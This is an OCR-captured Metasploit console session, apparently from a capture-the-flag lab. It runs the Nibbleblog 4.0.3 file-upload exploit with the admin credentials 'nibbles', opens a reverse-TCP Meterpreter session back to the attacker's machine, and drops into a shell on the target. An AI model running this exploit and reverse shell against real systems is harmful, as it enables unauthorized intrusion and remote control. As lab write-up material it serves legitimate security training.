     
    
    msf exploit(multi/http/nibbleblog_file_upload) > info
           Name: Nibbleblog File Upload Vulnerability
         Module: exploit/multi/http/nibbleblog_file_upload
       Platform: PHP
           Arch: php
     Privileged: No
        License: Metasploit Framework License (BSD)
           Rank: Excellent
      Disclosed: 2015-09-01
    
    Provided by:
      Unknown
      Roberto Soares Espreto <robertoespreto@gmail.com>
    
    Available targets:
      Id  Name
      --  ----
      0   Nibbleblog 4.0.3
    
    Basic options:
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   nibbles          yes       The password to authenticate with
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOST      10.10.10.75      yes       The target address
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /nibbleblog/     yes       The base path to the web application
      USERNAME   admin            yes       The username to authenticate with
      VHOST                       no        HTTP server virtual host
    
    Payload information:
    
    Description:
      Nibbleblog contains a flaw that allows an authenticated remote
      attacker to execute arbitrary PHP code. This module was tested on
      version 4.0.3.
    
    References:
      http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html
    
    msf exploit(multi/http/nibbleblog_file_upload) > run
    [*] Started reverse TCP handler on 10.10.14.157:4444
    [*] Sending stage (37543 bytes) to 10.10.10.75
    [*] Meterpreter session 2 opened (10.10.14.157:4444 -> 10.10.10.75:56052) at 2018-03-08 20:51:40 -0500
    [+] Deleted image.php
    meterpreter > shell
    Process 3816 created.
    Channel 0 created.
    id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    
